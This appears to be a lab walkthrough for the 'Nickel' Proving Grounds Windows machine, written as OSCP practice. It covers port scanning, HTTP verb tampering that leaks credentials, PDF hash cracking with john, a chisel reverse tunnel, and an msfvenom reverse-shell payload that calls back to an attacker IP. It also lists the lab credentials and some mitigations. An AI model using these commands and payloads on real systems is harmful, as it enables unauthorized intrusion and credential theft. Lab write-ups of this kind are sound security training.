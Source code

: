 ```yaml
---
title: Nickel
date: 2025-06-21
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Windows, api, HTTP-verb-tampering, chisel] 
image: nickel.webp
media_subpath: /assets/img/posts/2025-06-21-nickel/
---
```


## Introduction

In this walkthrough, I worked on the **Nickel** intermediate Windows machine from PG Practice. After discovering several open ports, I focused on port **8089**, which hosted a **DevOps dashboard**. Initially attempting to list system processes yielded no success, but changing the request method from **GET to POST** revealed sensitive **credentials**. Using these credentials, I successfully connected via **SSH**. While enumerating further, I discovered a **PDF file on an FTP server**, cracked its password, and uncovered a **temporary command execution endpoint** that ran commands with **NT AUTHORITY** privileges. Exploiting this endpoint, I achieved a **reverse shell** and escalated to full system access.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 21 (FTP)

Version - FileZilla ftpd 0.9.60 beta

Anonymous login is not allowed.

![image.png](image%202.png)

### Port 22 (SSH)

![image.png](image%203.png)

### Port 135 (MSRPC)

```bash
rpcclient -U'%' $IP
```

**NT_STATUS_ACCESS_DENIED**

### Port 139/445 (SMB)

```bash
smbclient -L //$IP -N
```

**NT_STATUS_ACCESS_DENIED**

### Port 3389 (RDP)

We can’t do anything for now.

## Web

### Port 80

![image.png](image%204.png)

```bash
**feroxbuster -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

![image.png](image%205.png)

**API Enumeration**

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://$IP:8080/FUZZ/
```

```bash
gobuster dir -u http://192.168.165.99:8089 -w /usr/share/wordlists/dirb/big.txt -p pattern --exclude-length=9
```

**pattern file**

```
{GOBUSTER}/v1
{GOBUSTER}/v2
```

**Error: the server returns a status code that matches the provided options for non existing urls. http://192.168.165.99:8089/c41aa973-45d6-4d00-a5c5-68854a3ae2ef => 200 (Length: 9). To continue please exclude the status code or the length**

### Port 8089

![image.png](image%206.png)

**Short Directory Fuzzing**

```bash
**feroxbuster -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

![image.png](image%207.png)

**API Enumeration**

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://$IP:8080/FUZZ/
```

```bash
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

**pattern file**

```
{GOBUSTER}/v1
{GOBUSTER}/v2
```

Nothing found.

### Port 33333

## Exploitation

I see that source code of port `8089` contains several endpoints which point to port `33333`. I remember that we had port 33333 open, I am gonna intercept request and send there instead.

![image.png](image%208.png)

![image.png](image%209.png)

![image.png](image%2010.png)

Let’s check if other request methods are supported `POST`, it started hanging I deleted `?` at the end.

![image.png](image%2011.png)

I found credentials, password is `base64` encoded.

## Shell as ariah

I connected to the machine through ssh.

![image.png](image%2012.png)

I connected to `ftp` and downloaded `pdf` file but it is protected with password.

![image.png](image%2013.png)

Let’s crack it:

```bash
pdf2john Infrastructure.pdf > pdf.hash
john --wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
john pdf.hash --show
```

![image.png](image%2014.png)

![image.png](image%2015.png)

I am trying to connect but it seems port is blocked:

![image.png](image%2016.png)

Let’s perform `SSH Local Port Forwarding`:

![image.png](image%2017.png)

It just kept hanging for me and didn’t work I am gonna use [chisel](https://github.com/jpillora/chisel/releases/tag/v1.10.1)

```bash
./chisel_1.10.1_linux_amd64 server --reverse --port 51234
.\chisel.exe client 192.168.45.159:51234 R:80:127.0.0.1:80
```

![image.png](image%2018.png)

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.159 LPORT=4445 -f exe -o reverse.exe
```

![image.png](image%2019.png)

![image.png](image%2020.png)

![image.png](image%2021.png)

## Credentials

```bash
ariah:NowiseSloopTheory139
pdf_pass:ariah4168
```

## Mitigation

- Disable **unused or debug dashboards** on production systems, especially those exposing sensitive data via HTTP methods.
- Enforce **authentication and access controls** on internal web applications.
- Avoid **storing credentials or secrets in plaintext responses or accessible endpoints**.
- Ensure FTP servers are not publicly accessible or contain unprotected sensitive files.
- Restrict command execution features to trusted users, and monitor systems for **unauthorized privilege escalation** attempts.
